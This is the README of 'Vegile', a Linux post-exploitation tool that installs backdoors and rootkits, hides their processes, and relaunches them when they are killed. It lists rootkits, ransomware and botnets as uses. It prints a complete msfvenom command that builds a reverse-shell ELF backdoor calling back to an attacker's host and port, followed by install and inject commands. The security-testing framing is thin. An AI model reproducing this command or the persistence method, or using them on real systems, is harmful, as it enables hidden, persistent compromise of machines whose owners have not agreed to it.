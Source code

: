 # Vegile - Ghost In The Shell

[![Version](https://img.shields.io/badge/Vegile-Beta-brightgreen.svg?maxAge=259200)]()
[![Stage](https://img.shields.io/badge/Release-Stable-brightgreen.svg)]()
[![Build](https://img.shields.io/badge/Supported_OS-Linux-orange.svg)]()

**Vegile** is a tool for **Post exploitation** Techniquesin linux. Post Exploitation techniques will ensure that we maintain some level of **access and can potentially** lead to **deeper** footholds into our targets **trusted network**.

### Donate
- If this project very help you to penetration testing  and u want support me , you can give me a cup of coffee :)
- [![Donation](https://img.shields.io/badge/bitcoin-donate-yellow.svg)](https://blockchain.info/id/address/1NuNTXo7Aato7XguFkvwYnTAFV2immXmjS)

## :book: How it works

This tool will setting up your ***backdoor/rootkits***
when backdoor already setup it will be **hidden your spesisifc process** ,***unlimited*** your ***session*** in metasploit and ***transparent***.
Even when it **killed**,it will **re-run again** . There always be a procces which while **run** another process,
So we can assume that this procces is **unstopable** like a **Ghost in The Shell**

#### READ THIS

- right now i just tested backdoor with msfvenom command using reverse_shell [ **its work** ] 
- **msfvenom -a x86 --platform linux -p linux/x86/shell/reverse_tcp LHOST=IP LPORT=PORT -b "\x00" -f elf -o NAME_BACKDOOR**
- for hidden process you can use for **rootkits,backdoor,ransom and botnet** { sh,python,perl,exe and binary }.
- Victim  target all linux distribution include ( **base32** and **base64** in their system ) 



## Getting Started
1. ```git clone https://github.com/Screetsec/Vegile.git```
2. ```cd Vegile```
3. ```chmod +x Vegile```

## Using Vegile
Running Vegile without any parameters will give a helpful list of the most common options. you can use command : 

- Vegile -i / --inject  **[backdoor/rootkit]**
- Vegile -u / --unlimited **[backdoor/rootkit]**
- Vegile -h / --help 


## :octocat: Credits

- Thanks to allah 
- Dracos Linux from Scratch Indonesia ( Awesome Penetration os ), you can see in http://dracos-linux.org/ 
- WingkoColi , Reversing ID , IndoXploit , Backbox Indonesia and Indonesia Backtrack Team .
- Offensive Security for the awesome OS ( http://www.offensive-security.com/ )
- http://www.kali.org/ Kali Linux
- www.github.com/gianlucaborello to give a reference 
- And another open sources tool in github



## Disclaimer

***Note: modifications, changes, or alterations to this sourcecode is acceptable, however,any public releases utilizing this code must be approved by writen this tool ( Edo -m- ).***
